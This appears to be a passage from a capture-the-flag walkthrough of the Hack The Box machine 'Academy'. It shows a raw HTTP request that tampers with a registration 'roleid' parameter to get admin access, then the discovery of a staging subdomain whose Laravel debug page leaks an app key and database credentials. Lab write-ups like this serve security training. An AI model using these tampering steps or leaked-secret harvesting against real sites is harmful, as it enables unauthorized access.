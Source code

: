 We notice there is an admin page.

## Web exploitation: IDOR

When registering there is a param `roleid`, if we change it from zero (user) to
one (admin), we will maybe get an admin account.

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://academy.htb
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=p9e8usvnv8b6jd47873fbt4ao2
Upgrade-Insecure-Requests: 1

uid=cyfun3&password=cyfun3&confirm=cyfun3&roleid=0
```

Then we can login at http://academy.htb/admin.php. If you let `roleid=0` you can't.

On the admin dashboard there is a todolist with a status.

Item | Status
--- | ---
Complete initial set of modules (cry0l1t3 / mrb3n) | done
Finalize website design | done
Test all modules | done
Prepare launch campaign | done
Separate student and admin roles | done
Fix issue with dev-staging-01.academy.htb | pending

Let's add the new subdomain to our host file.

```
$ cat /etc/hosts | grep academy
10.10.10.215 academy.htb
10.10.10.215 dev-staging-01.academy.htb
```

## Web exploitation: Laravel RCE and debug mode

Let's go at: http://dev-staging-01.academy.htb/

We are welcomed by a laravel debugger.

Here we have a bunch of environment variables leaking secrets:

```
APP_NAME "Laravel"
APP_ENV "local"
APP_KEY "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
APP_DEBUG "true"
APP_URL "http://localhost"
LOG_CHANNEL "stack"
DB_CONNECTION "mysql"
DB_HOST "127.0.0.1"
DB_PORT "3306"
DB_DATABASE "homestead"
DB_USERNAME "homestead"
DB_PASSWORD "secret"
BROADCAST_DRIVER "log"
```